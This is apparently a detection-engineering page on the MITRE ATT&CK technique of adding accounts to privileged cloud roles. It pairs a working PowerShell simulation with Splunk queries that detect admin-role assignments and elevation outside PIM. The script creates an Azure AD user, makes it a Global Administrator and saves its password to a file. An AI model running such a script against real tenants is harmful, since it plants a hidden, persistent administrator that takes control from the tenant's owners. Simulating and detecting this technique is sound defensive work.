 # Account Manipulation: Additional Cloud Roles
## About
An adversary can create an account and then add it to a privileged role such as Global Administrator. <br>
More details here in <a href="https://attack.mitre.org/techniques/T1098/003/" target="_blank"> MITRE ATT&CK </a> . <br>

## Attack Simulation

The below script creates an account and adds the account to the Global administrator role. <br>

``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin r+ole"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```

Azure AD user is assigned the Global Admin role as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/AccountManipulationAdditionalCloudRoles-T1098-003_0.png"></img>
<br>

## Splunk Detection

### User added to the administrator role
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add member to role" result="success"
| eval AssignedRoleName = mvindex('targetResources{}.modifiedProperties{}.newValue', mvfind('targetResources{}.modifiedProperties{}.displayName', "Role\.DisplayName"))
| eval RoleWellKnownObjectName = mvindex('targetResources{}.modifiedProperties{}.newValue', mvfind('targetResources{}.modifiedProperties{}.displayName', "Role\.WellKnownObjectName"))
| search AssignedRoleName = "*Administrator*"
| rename targetResources{}.userPrincipalName as UserAddedToRole, initiatedBy.user.ipAddress as src_ip, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAddedToRole, AssignedRoleName, src_ip ,CreatedByUPN,  roleWellKnownObjectName
```

#### The User was created outside PIM (e.g. PowerShell)
When the user is assigned to an administrator role without using <a href="https://docs.microsoft.com/en-us/azure/active-directory/privileged-identity-management/pim-configure">Azure AD Privileged Identity Management (PIM)</a>, a corresponding Azure Ad event "RoleElevatedOutsidePimAlert" is generated and we would want to detect such an event. Any privileged role assignment should be done only through PIM. <br>

```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```